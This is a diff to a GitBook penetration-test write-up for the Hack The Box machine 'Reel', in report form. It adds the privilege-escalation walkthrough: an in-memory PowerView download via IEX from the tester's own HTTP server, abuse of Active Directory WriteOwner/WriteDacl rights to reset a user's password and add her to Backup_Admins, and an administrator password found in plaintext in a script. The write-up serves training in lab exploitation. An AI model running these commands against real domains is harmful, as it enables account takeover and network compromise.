

GitBook: [#32] No subject

diff --git a/reel.md b/reel.md
@@ -295,9 +295,13 @@ _Initial Shell -_ Microsoft Office/WordPad Remote Code Execution Vulnerability (
 
 **Vulnerability Explanation:**
 
-**Vulnerability Fix:**
+Microsoft Office 2007 SP3, Microsoft Office 2010 SP2, Microsoft Office 2013 SP1, Microsoft Office 2016, Microsoft Windows Vista SP2, Windows Server 2008 SP2, Windows 7 SP1, Windows 8.1 allow remote attackers to execute arbitrary code via a crafted document, aka "Microsoft Office/WordPad Remote Code Execution Vulnerability w/Windows API."
 
-**Severity:**
+**Vulnerability Fix:**&#x20;
+
+Update to the latest software release
+
+**Severity:** **Critical**
 
 **Proof of Concept:**
 
@@ -501,7 +505,7 @@ C:\Windows\system32>
 
 **Local.txt Proof Screenshot**
 
-<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p>user proof</p></figcaption></figure>
+<figure><img src=".gitbook/assets/image (2) (3).png" alt=""><figcaption><p>user proof</p></figcaption></figure>
 
 **Local.txt Contents**
 
@@ -630,31 +634,278 @@ SecurePassword : System.Security.SecureString
 Domain         : HTB
 ```
 
+With SSH open I gain access using tom's credentials
+
+```
+┌──[Thu Nov 10 09:30:59 AM CST 2022]-[TheScriptKid]-[/opt/winreconpack]
+├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.47.91]
+└──# ssh tom@$ip                                                                                                                                            1 ⨯
+tom@10.129.47.91's password: 
+
+Microsoft Windows [Version 6.3.9600]                                                                                            
+(c) 2013 Microsoft Corporation. All rights reserved.                                                                            
+
+tom@REEL C:\Users\tom>powershell                                                                                                
+Windows PowerShell                                                                                                              
+Copyright (C) 2014 Microsoft Corporation. All rights reserved.                                                                  
+
+PS C:\Users\tom>
+```
+
+Before enumerating the active directory domain I will load PowerView, a powershell tool, in memory.
+
+```
+┌──[Tue Nov  8 10:47:39 PM CST 2022]-[TheScriptKid]-[/tmp]
+├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
+└──# python3 -m http.server 80 -d /opt/winreconpack
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+
+```
+
+{% code overflow="wrap" %}
+```
+PS C:\Users\tom> IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.2/powerview.ps1")
+```
+{% endcode %}
+
+```
+┌──[Tue Nov  8 10:47:39 PM CST 2022]-[TheScriptKid]-[/tmp]
+├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
+└──# python3 -m http.server 80 -d /opt/winreconpack
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+10.129.15.19 - - [08/Nov/2022 22:49:14] "GET /powerview.ps1 HTTP/1.1" 200 -
+
+```
+
+I begin checking for non-default groups with one being of interest is the backup\_admins group
+
+```
+PS C:\Users\tom> get-netgroup                                                                                                   
+...                                                                                                       
+Backup_Admins
+AppLocket_Test                                                                                                                 
+SharePoint_Admins                                                                                                               
+DR_Site                                                                                                                         
+SQL_Admins                                                                                                                      
+HelpDesk_Admins                                                                                                                 
+Restrictions                                                                                                                    
+All_Staff                                                                                                                       
+MegaBank_Users                                                                                                                  
+Finance_Users                                                                                                                   
+HR_Team                                                                                                                  
+```
+
+I look into what users/group and the permissions associated and I see that claire has an interesting permission of WriteDacl
+
+```
+PS C:\Users\tom> get-objectacl -SamAccountName "Backup_Admins" -ResolveGUIDs
+
+
+InheritedObjectType   : All                                                                                                     
+ObjectDN              : CN=Backup_Admins,OU=Groups,DC=HTB,DC=LOCAL                                                              
+ObjectType            : All                                                                                                     
+IdentityReference     : HTB\claire                                                                                              
+IsInherited           : False                                                                                                   
+ActiveDirectoryRights : ReadProperty, WriteProperty, GenericExecute, WriteDacl                                                  
+PropagationFlags      : None                                                                                                    
+ObjectFlags           : None                                                                                                    
+InheritanceFlags      : ContainerInherit                                                                                        
+InheritanceType       : All                                                                                                     
+AccessControlType     : Allow                                                                                                   
+ObjectSID             : S-1-5-21-2648318136-3688571242-2924127574-1135
+```
+
+I proceed into searching for tom's user who may have object access to claire's user. According to the output tom has WriteOwner permissions to claire.
+
+```
+PS C:\Users\tom> Get-ObjectAcl -SamAccountName "claire" -ResolveGUIDs
+
+
+InheritedObjectType   : All                                                                                                     
+ObjectDN              : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL                                                                
+ObjectType            : All                                                                                                     
+IdentityReference     : HTB\tom                                                                                                 
+IsInherited           : False                                                                                                   
+ActiveDirectoryRights : WriteOwner                                                                                              
+PropagationFlags      : None                                                                                                    
+ObjectFlags           : None                                                                                                    
+InheritanceFlags      : None                                                                                                    
+InheritanceType       : None                                                                                                    
+AccessControlType     : Allow                                                                                                   
+ObjectSID             : S-1-5-21-2648318136-3688571242-2924127574-1130
+```
+
+With this information I can abuse the WriteOwner and WriteDacl permissions as follows
+
+```
+PS C:\Users\tom> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights all                                  
+PS C:\Users\tom> $UserPassword = ConvertTo-SecureString '@Password!23' -AsPlainText -Force                                      
+PS C:\Users\tom> Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword                                         
+PS C:\Users\tom> $Cred = New-Object System.Management.Automation.PSCredential('HTB\claire', $UserPassword)                      
+PS C:\Users\tom> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $Cred
+```
+
+Now I can see claire under the Backup\_Admins group
+
+```
+PS C:\Users\tom> net user claire /domain                                                                                        
+User name                    claire                                                                                             
+Full Name                    Claire Danes                                                                                       
+Comment                                                                                                                         
+User's comment                                                                                                                  
+Country/region code          000 (System Default)                                                                               
+Account active               Yes                                                                                                
+Account expires              Never                                                                                              
+
+Password last set            11/10/2022 5:13:11 PM                                                                              
+Password expires             Never                                                                                              
+Password changeable          11/11/2022 5:13:11 PM                                                                              
+Password required            Yes                                                                                                
+User may change password     Yes                                                                                                
+
+Workstations allowed         All                                                                                                
+Logon script                                                                                                                    
+User profile                                                                                                                    
+Home directory                                                                                                                  
+Last logon                   11/10/2022 5:13:24 PM                                                                              
+
+Logon hours allowed          All                                                                                                
+
+Local Group Memberships      *Hyper-V Administrator                                                                             
+Global Group memberships     *Backup_Admins        *Domain Users                                                                
+                             *MegaBank_Users       *DR_Site                                                                     
+                             *Restrictions                                                                                      
+The command completed successfully.
+```
+
+With claire's password changed I now gain access as claire using SSH
+
+```
+┌──[Thu Nov 10 11:14:40 AM CST 2022]-[TheScriptKid]-[/tmp]
+├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
+└──# ssh claire@10.129.47.91                                                                                                                              130 ⨯
+claire@10.129.47.91's password: 
+
+Microsoft Windows [Version 6.3.9600]                                                                                            
+(c) 2013 Microsoft Corporation. All rights reserved.                                                                            
+
+claire@REEL C:\Users\claire>
+```
+
+With claire's permissions I am able to view the administrator's directory. Furthermore, I encounter a Backup Scripts directory that includes interesting files, powershell scripts.
+
+```
+claire@REEL C:\Users\Administrator\Desktop>cd "Backup Scripts"                                                                  
+
+claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>dir                                                                   
+ Volume in drive C has no label.                                                                                                
+ Volume Serial Number is CC8A-33E1                                                                                              
+
+ Directory of C:\Users\Administrator\Desktop\Backup Scripts                                                                     
+
+11/02/2017  09:47 PM    <DIR>          .                                                                                        
+11/02/2017  09:47 PM    <DIR>          ..                                                                                       
+11/03/2017  11:22 PM               845 backup.ps1                                                                               
+11/02/2017  09:37 PM               462 backup1.ps1                                                                              
+11/03/2017  11:21 PM             5,642 BackupScript.ps1                                                                         
+11/02/2017  09:43 PM             2,791 BackupScript.zip                                                                         
+11/03/2017  11:22 PM             1,855 folders-system-state.txt                                                                 
+11/03/2017  11:22 PM               308 test2.ps1.txt                                                                            
+               6 File(s)         11,903 bytes                                                                                   
+               2 Dir(s)  15,594,967,040 bytes free
+```
+
+My initial thought is to search for passwords in these scripts and what looks to be the administrator is revealed
+
+```
+claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>findstr /si password *.ps1                                            
+BackupScript.ps1:# admin password                                                                                               
+BackupScript.ps1:$password="Cr4ckMeIfYouC4n!"
+```
+
+I attempt to SSH into the administrator user with these credentials and gain administrator access
+
+```
+┌──[Thu Nov 10 01:50:51 PM CST 2022]-[TheScriptKid]-[/tmp]
+├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
+└──# ssh administrator@10.129.47.91
+administrator@10.129.47.91's password: 
+
+Microsoft Windows [Version 6.3.9600]                                                                                            
+(c) 2013 Microsoft Corporation. All rights reserved.                                                                            
+
+administrator@REEL C:\Users\Administrator>
+```
 
 
 
+**Vulnerability Exploited: Insecure Access Control Lists**
 
+**Vulnerability Explanation:** W**eak permissions of Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs) that make up DACLs.**
 
-
-
-
-
-
-**Vulnerability Exploited:**
-
-**Vulnerability Explanation:**
-
-**Vulnerability Fix:**
+**Vulnerability Fix: Remove Unesescary Permissions To Prevent Compromise**
 
 **Severity: Critical**
 
-**Exploit Code:**
-
 **Proof Screenshot Here:**
+
+<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p><strong>Root.txt</strong></p></figcaption></figure>
 
 **Proof.txt Contents:**
 
-**Post Exploitation**
+```
+administrator@REEL C:\Users\Administrator\Desktop>hostname && whoami && type root.txt && ipconfig /all                          
+REEL                                                                                                                            
+htb\administrator                                                                                                               
+1018a0331e686176ff4577c728eaf32a                                                                                                
+Windows IP Configuration                                                                                                        
+
+   Host Name . . . . . . . . . . . . : REEL                                                                                     
+   Primary Dns Suffix  . . . . . . . : HTB.LOCAL                                                                                
+   Node Type . . . . . . . . . . . . : Hybrid                                                                                   
+   IP Routing Enabled. . . . . . . . : No                                                                                       
+   WINS Proxy Enabled. . . . . . . . : No                                                                                       
+   DNS Suffix Search List. . . . . . : HTB.LOCAL                                                                                
+                                       htb                                                                                      
+
+Ethernet adapter Ethernet0 2:                                                                                                   
+
+   Connection-specific DNS Suffix  . : .htb                                                                                     
+   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter                                                                 
+   Physical Address. . . . . . . . . : 00-50-56-B9-C6-68                                                                        
+   DHCP Enabled. . . . . . . . . . . : Yes                                                                                      
+   Autoconfiguration Enabled . . . . : Yes                                                                                      
+   IPv6 Address. . . . . . . . . . . : dead:beef::56(Preferred)                                                                 
+   Lease Obtained. . . . . . . . . . : 10 November 2022 06:18:13                                                                
+   Lease Expires . . . . . . . . . . : 10 November 2022 22:45:49                                                                
+   IPv6 Address. . . . . . . . . . . : dead:beef::66:2c96:a520:b43b(Preferred)                                                  
+   Link-local IPv6 Address . . . . . : fe80::66:2c96:a520:b43b%14(Preferred)                                                    
+   IPv4 Address. . . . . . . . . . . : 10.129.47.91(Preferred)                                                                  
+   Subnet Mask . . . . . . . . . . . : 255.255.0.0                                                                              
+   Lease Obtained. . . . . . . . . . : 10 November 2022 06:18:24                                                                
+   Lease Expires . . . . . . . . . . : 10 November 2022 22:48:24                                                                
+   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%14                                                              
+                                       10.129.0.1                                                                               
+   DHCP Server . . . . . . . . . . . : 10.129.0.1                                                                               
+   DHCPv6 IAID . . . . . . . . . . . : 335564886                                                                                
+   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-22-AD-9E-CA-00-50-56-B9-50-75                                                
+   DNS Servers . . . . . . . . . . . : 1.1.1.1                                                                                  
+                                       8.8.8.8                                                                                  
+   NetBIOS over Tcpip. . . . . . . . : Enabled                                                                                  
+   Connection-specific DNS Suffix Search List :                                                                                 
+                                       htb                                                                                      
+
+Tunnel adapter isatap..htb:                                                                                                     
+
+   Media State . . . . . . . . . . . : Media disconnected                                                                       
+   Connection-specific DNS Suffix  . : .htb                                                                                     
+   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2                                                              
+   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0                                                                  
+   DHCP Enabled. . . . . . . . . . . : No                                                                                       
+   Autoconfiguration Enabled . . . . : Yes                                                                                      
+
+administrator@REEL C:\Users\Administrator\Desktop>
+```
 
 ### Maintaining Access
 
@@ -668,14 +919,12 @@ After collecting data from the network was completed, I removed all user account
 
 ## Additional Items
 
-### Appendix - Proof and Local Contents:
+### Appendix - Proof and Local Contents
 
-| IP (Hostname) | Local.txt Contents | Proof.txt Contents |
-| ------------- | ------------------ | ------------------ |
-| x.x.x.x       | hash\_here         | hash\_here         |
+| IP (Hostname) | Local.txt Contents               | Proof.txt Contents               |
+| ------------- | -------------------------------- | -------------------------------- |
+| 10.129.47.91  | b38b9329fcdc4ea8887eb109c05c8afd | b2e35251f711471d971e9a660604353d |
 
-### Appendix - Metasploit/Meterpreter Usage
+### Appendix - Bagde
 
-For the pentest, I used my Metasploit/Meterpreter allowance on the following machine: `No Metasploit/Meterpreter was used during engagment`
-
-### Appendix - Completed Buffer Overflow Code
+<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

diff --git a/giddy.md b/giddy.md
@@ -65,7 +65,7 @@ ________________________________________________
 
 <figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption><p>Confirmed SQL Injection</p></figcaption></figure>
 
-<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption><p>Performing The Injection Using Burp Suite With A Different Payload To Authenticate To A Malicious SMB Service </p></figcaption></figure>
+<figure><img src=".gitbook/assets/image (3) (2).png" alt=""><figcaption><p>Performing The Injection Using Burp Suite With A Different Payload To Authenticate To A Malicious SMB Service </p></figcaption></figure>
 
 Setting Up Responder To Capture NTLMv2 Hash
 
